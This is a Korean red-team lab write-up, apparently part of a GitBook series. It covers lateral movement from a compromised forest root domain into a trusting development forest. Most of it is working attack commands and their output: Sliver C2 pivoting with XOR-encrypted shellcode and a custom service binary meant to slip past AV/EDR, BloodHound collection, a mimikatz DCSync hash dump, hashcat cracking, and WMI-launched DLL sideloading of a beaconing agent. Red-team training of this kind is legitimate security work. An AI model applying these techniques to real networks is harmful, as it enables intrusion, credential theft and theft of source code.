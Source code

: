 # 9. RT -> DEV 정보 수집

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커스텀 슬리버 서비스 바이너리를 이용한 횡적 이동
* Cross-Forest BloodHound
* Foreign Local Administrator

<figure><img src="../.gitbook/assets/AttackPath10-RT-to-DEV.drawio (1).png" alt=""><figcaption></figcaption></figure>

레드팀의 주요 목표중 하나는 바로 in.dev.raccoon 도메인에 있는 소스코드를 확보 및 탈취하는 것이였다. RT라는 포레스트 루트 도메인까지 장악을 한 이유는 RT와 DEV(dev.raccoon)간의 도메인/포레스트 신뢰 관계 파악 때문이였다.

```
sliver (HEALTHY_JEWEL) > sharpview -- "Get-ForestTrust"

[*] sharpview output:
SourceName                     : rt.local
TargetName                     : dev.raccoon                                 
TrustDirection                 : Inbound
TrustType                      : Forest 
```

신뢰 관계 파악 결과, DEV -> TRUST -> RT 라는, RT 포레스트를 기준으로 INBOUND 신뢰 관계가 구축되어 있었다. RT는 포레스트 루트 도메인이니, 이왕 장악한 김에 모든 자식 도메인과 DEV까지 블러드하운드로 정보 수집을 진행해본다.

장악한 RT의 엔터프라이즈 관리자 권한을 바탕으로 RT, US, KR, DEV에 모두 블러드하운드를 날려본다. 여기까지 왔을 때 탐지가 안된 것으로 보아 해외법인쪽인 DEV 및 IN은 더 보안이 약할 것이라는 추론이 가능하다. 때문에 모든 정보를 가지고 오기 위해 `-c All,LoggedOn` 을 사용한다. DEV를 향한 블러드하운드는 PDC01에서 실행한다.

먼저 블러드하운드를 실행하기 전 UDC01 -> PDC01로의 횡적 이동이 필요하다.

이전까지 횡적 이동은 모두 슬리버의 기본 PSEXEC 명령어를 사용했다. 해당 명령어의 경우 슬리버의 소스 코드를 살펴보면 기본 슬리버 서비스 바이너리를 컴파일 한 뒤, 이를 업로드 하고, 윈도우 서비스를 대상 머신에서 실해앟는 방식으로 실행된다.

감시가 덜 한 SQL01, WEB01 등의 서버들한테는 괜찮지만, 도메인 컨트롤러들의 경우 관제, AV, EDR 들의 감시가 더 심한 경우가 있다. 때문에 이번에는 커스텀 슬리버 서비스 바이너리를 따로 만들어 횡적 이동을 진행한다.

<figure><img src="../.gitbook/assets/0-custom-sliversvc.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.virustotal.com/gui/file/a2fb37a3a53ba518b686f1266b11f32d5bd0e5c4fa6168a6eec102edcdb848f3/detection" %}

간단하게 만든 탓에 Falcon과 Elastic에는 걸리지만, 그래도 간단한 AV/EDR 정도는 우회해서 실행 가능할 것 같다. 이제 커스텀 슬리버 서비스 바이너리를 이용해 UDC01에서 PDC01로 횡적이동한다.

```
// 1. UDC01.us.rt.local -> PDC01.rt.local

// UDC01에서 피벗 SMB 리스너 실행 
sliver (ORANGE_ZEBRA) > pivots named-pipe --bind mojo.10968.11628.5896583801798593583 --allow-all

// 피벗 SMB 에이전트 쉘코드 제작 
sliver (ORANGE_ZEBRA) > generate -f shellcode -p 10.2.30.10/pipe/mojo.10968.11628.5896583801798593583 -s /root/pdc01-namedpipe.bin

// XOR 암호화 
python3 /opt/pyHellShell/pyHellShell.py -i /root/pdc01-namedpipe.bin -e xor -k microsoft -f raw -out /root/pdc01-namedpipe-xor.bin

// PDC01로 쉘코드 업로드 (6번에서 RT\Administrator의 TGT를 PTT한 상태, 커버로스 인증 사용 - FQDN) 
sliver (ORANGE_ZEBRA) > upload /root/pdc01-namedpipe-xor.bin '//pdc01.rt.local/C$/windows/temp/20250120-crashdump.bin

// 피벗 
sliver (ORANGE_ZEBRA) > psexec -t 30 -c /root/sliversvc.exe -s DomainControllerUpdate -d "Domain Controller updater patch" pdc01.rt.local

[*] Uploaded service binary to \\pdc01.rt.local\C$\windows\temp\4__ephemeris__u3evn.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on pdc01.rt.local (c:\windows\temp\4__ephemeris__u3evn.exe)
[*] Successfully removed service DomainControllerUpdate on pdc01.rt.local

[*] Session f2f3edf9 HEALTHY_JEWEL - tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->ORANGE_ZEBRA-> (pdc01) - windows/amd64 - Sat, 25 Jan 2025 03:11:56 UTC

sliver (ORANGE_ZEBRA) > sessions 

 ID         Transport   Remote Address                                                                    Hostname    Username              Operating System   Health  
========== =========== ================================================================================= =========== ===================== ================== =========
 d4392da6   http(s)     tcp(127.0.0.1:44858)->2a06:98c0:3600::103                                         uswkstn01   US\johndoe.smith      windows/amd64      [ALIVE] 
 4d3804f5   pivot       tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->                 udc01       NT AUTHORITY\SYSTEM   windows/amd64      [ALIVE]
 f2f3edf9   pivot       tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->ORANGE_ZEBRA->   pdc01       NT AUTHORITY\SYSTEM   windows/amd64      [ALIVE] 
```



PDC01에서 RT, KR, US, DEV를 상대로 블러드하운드를 실행한다

```
sliver (HEALTHY_JEWEL) > impersonate rt\\Administrator

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d kr.rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d us.rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d dev.raccoon --domaincontroller ddc01.dev.raccoon"

sliver (HEALTHY_JEWEL) > download 20250125122355_crashdump.zip /tmp/bh-dev.zip
```

이번 블러드하운드에서는 Cross-Forest 권한이나 로컬 관리자 권한 등에 대해서 찾아본다. `MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name` 사이퍼 쿼리를 사용하면 로컬 관리자 권한을 갖고 있는 유저들을 볼 수 있다. KR 도메인 내 특정 4명의 유저들이 `SESSIONJH01.DEV.RACCOON` 서버에 로컬 관리자 권한을 갖고 있다.



<figure><img src="../.gitbook/assets/7-krusers-localadmin-to-sessionjh01-dev.png" alt=""><figcaption></figcaption></figure>

찾아본 결과 해당 유저들은 모두 ITADMINS@KR.RT.LOCAL 그룹의 멤버들이였다. IT 관리자들이 인도 개발 법인에 접속하기 위해 `SESSIONJH01` 서버를 이용하고 있다는 것을 유추할 수 있다.

<figure><img src="../.gitbook/assets/7-2-krusers-itadmins.png" alt=""><figcaption></figcaption></figure>

세션 호스트나 점프호스트는 다양한 서버들에 접속하기 위해 사용하는 서버다. 많은 유저들이 사용하고 있을 확률이 높고, RDP 등의 트래픽은 모니터링 되고 있을 확률이 높다. DEV와 RT 사이를 계속해서 오가는 Cross-Forest로 행해지는 SMB 트래픽도 수상하게 느낄 확률이 높다.

그렇기 때문에 SESSIONJH01.dev.raccoon에는 맨 처음에 활용했던 초기 침투용 HTTPS 에이전트 페이로드를 업로드 한 뒤, 실행한다. 개발자들이 많은 법인의 세션 호스트에서 pages.dev 등으로 아웃바운드 트래픽이 날라가는 것은 그나마 좀 덜 수상하다고 느낄 가능성이 높다.

먼저 ITADMINS의 유저들의 비밀번호를 DCSYNC로 가져온 뒤, 크래킹 하고, SESSIONJH01에 접근 가능한지 확인한다.

```
// KR\ITADMINS의 유저 중 한명 NT 해시 획득 
sliver (HEALTHY_JEWEL) > mimikatz " \"lsadump::dcsync /domain:kr.rt.local /user:KR\\jeong.sangmi\" "

Credentials:
  Hash NTLM: d6c5976e07cdb410be19b84126367e3d

// 크래킹 
└─# echo 'd6c5976e07cdb410be19b84126367e3d' >  jeong-sangmi.hash
└─# hashcat -a 0 -m 1000 jeong-sangmi.hash /usr/share/wordlists/rockyou.txt --show 
d6c5976e07cdb410be19b84126367e3d:strawberry


// 접근 확인 
sliver (HEALTHY_JEWEL) > make-token -u jeong.sangmi -p strawberry -d kr.rt.local 
[*] Successfully impersonated kr.rt.local\jeong.sangmi. Use `rev2self` to revert to your previous token.

sliver (HEALTHY_JEWEL) > ls '\\10.2.100.100\c$' 

\\10.2.100.100\c$\ (17 items, 3.2 GiB)
======================================
drwxrwxrwx  $Recycle.Bin                        <dir>      Fri Jan 24 11:38:27 +0900 2025
drwxrwxrwx  Boot                                <dir>      Fri Dec 27 18:51:56 +0900 2024
-r--r--r--  bootmgr                             399.1 KiB  Sat Sep 07 09:28:49 +0900 2019
-rw-rw-rw-  BOOTNXT                             1 B        Sat Sep 15 16:12:30 +0900 2018
-r--r--r--  BOOTSECT.BAK                        8.0 KiB    Fri Dec 27 18:51:56 +0900 2024

```

SESSIONJH01에는 어떤 유저들이 있는지, 인터넷에 접근은 가능한지 원격으로 알아본다.

```
// 의미있는 세션은 없었다. 다들 퇴근한 모양 
sliver (HEALTHY_JEWEL) > sa-regsession sessionjh01.dev.raccoon

// socks5 + proxychains 로 curl 실행, 인터넷 접근 확인 
sliver (HEALTHY_JEWEL) > socks5 start

root@ip-10-1-14-169:~# proxychains netexec smb 10.2.100.100 -u jeong.sangmi -p strawberry -d kr.rt.local -x 'curl -I https://www.google.com'
SMB         10.2.100.100    445    SESSIONJH01      HTTP/1.1 200 OK
SMB         10.2.100.100    445    SESSIONJH01      Content-Type: text/html; charset=ISO-8859-1

```

HTTPS 에이전트를 업로드 한 뒤, 초기침투와 동일한 방식으로 DLL 사이드로딩을 실행한다. 이번에는 원격 프로세스 인젝션을 사용하지 않고, 로컬 프로세스 인젝션을 실행한다.

```
sliver (HEALTHY_JEWEL) > upload /root/onedriveupdater.exe '//10.2.100.100/C$/windows/temp/onedriveupdater.exe' 
sliver (HEALTHY_JEWEL) > upload /root/version.dll '//10.2.100.100/C$/windows/temp/version.dll' 

sliver (HEALTHY_JEWEL) > sharp-wmi action=exec computername=sessionjh01.dev.raccoon command="c:\\windows\\temp\\onedriveupdater.exe" username=KR\\jeong.sangmi password=strawberry

[*] sharp-wmi output:

[*] Host                           : sessionjh01.dev.raccoon
[*] Command                        : c:\windows\temp\onedriveupdater.exe
[*] User credentials               : KR\jeong.sangmi
[*] Creation of process returned   : 0
[*] Process ID                     : 10828

[*] Beacon 7059cea3 WORTHWHILE_PROMOTION - tcp(127.0.0.1:33402)->2a06:98c0:3600::103 (sessionjh01) - windows/amd64 - Sat, 25 Jan 2025 13:03:01 UTC
```

모든 공격과 횡적 이동이 끝나게 되면 SESSIONJH01에서 비컨 콜백을 하나 더 받을 수 있다.

<figure><img src="../.gitbook/assets/AttackPath12-sessionjh01.drawio (1).png" alt=""><figcaption></figcaption></figure>

이제 세션 호스트에서 얻은 비컨을 바탕으로 DEV에서의 권한 상승 및 라쿤 테크의 소스 코드가 있을 만한 서버를 찾아보자.



